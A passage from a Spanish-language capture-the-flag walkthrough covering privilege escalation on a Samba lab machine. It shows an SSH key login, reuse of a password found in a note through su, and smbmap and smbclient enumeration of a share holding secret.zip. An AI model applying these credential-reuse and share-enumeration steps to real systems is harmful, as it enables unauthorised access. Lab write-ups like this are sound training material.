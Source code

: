 ```css
ssh -i id_rsa <user>@<ip>
```

Luego de probar, el usuario que nos sirve es "passsamba"

## ESCALADA DE PRIVILEGIOS

#### Passsamba

Si ejecutamos `ls` podremos ver una nota que contiene lo siguiente:

```css
What would "sambaarribasiempre" be used for?
```

Al parecer es una contraseña, por lo que podemos ejecutar `su` con los demás usuarios y ver si alguno tiene esa contraseña.

Luego de probar, el usuario que la tiene es "sambauser"

#### Sambauser

Por lo que vemos el usuario "sambauser" no tiene nada interesante, por lo que podria significar que es la clave para el smb, sabiendo eso simplemente vamos a nuestra máquina atacante y ejecutamos lo siguiente:

```css
smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2
```

```css
[+] IP: 172.19.0.2:445	Name: 172.19.0.2                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	read_only_share                                   	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (89db6cae5624 server (Samba, Ubuntu))
```

Como vemos está el directorio "read\_only\_share" al cual tenemos acceso de lectura, por lo que ahora usaremos `smbclient` para conectarnos y ver que lo que hay dentro:

```css
smbclient //172.19.0.2/read_only_share -U sambauser -W workgroup
```

cuando se nos pida la contraseña la ponemos y ya podemos ejecutar `ls`. Al hacerlo vemos lo siguiente:

```css

smb: \> ls
  .                                   D        0  Tue Aug 27 06:21:22 2024
  ..                                  D        0  Tue Aug 27 06:21:22 2024
  secret.zip                          N      242  Tue Aug 27 06:21:14 2024

		84999492 blocks of size 1024. 36921604 blocks available
smb: \> 
```
